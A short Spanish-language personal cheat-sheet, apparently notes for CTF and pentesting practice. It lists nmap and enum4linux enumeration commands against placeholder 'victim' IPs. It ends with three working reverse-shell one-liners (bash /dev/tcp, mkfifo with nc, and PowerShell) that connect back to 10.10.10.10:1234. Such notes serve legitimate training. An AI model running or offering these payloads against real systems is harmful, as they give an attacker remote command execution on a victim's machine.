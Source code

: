  


#enumeracion #nmap #interes 
La manera universal de enumerar con nmap --> OJO EN CTFS --> la mayoria de veces este es el parametro general **nmap -p- --open -sC -sV --min-rate 5000 -vvv -n -Pn 10.10.10.10 --> REEMPLAZA AQUI POR LA IP VICTIMA** 


este comando me sirivo para sacar la version del servidor dns alojada en el puerto 53
`sudo nmap -sU --open -A 10.129.1.121 -p 53 -sV  --packet-trace`

![[Pasted image 20240904211003.png]]


escaneo profundo en smb lo que no puede traer, usuarios, sistemas operativos, incluso intenta fuerza bruta y contrasenas
`enum4linux -a 10.129.144.116`


#reverse_shell 
```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```
Código: powershell
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```
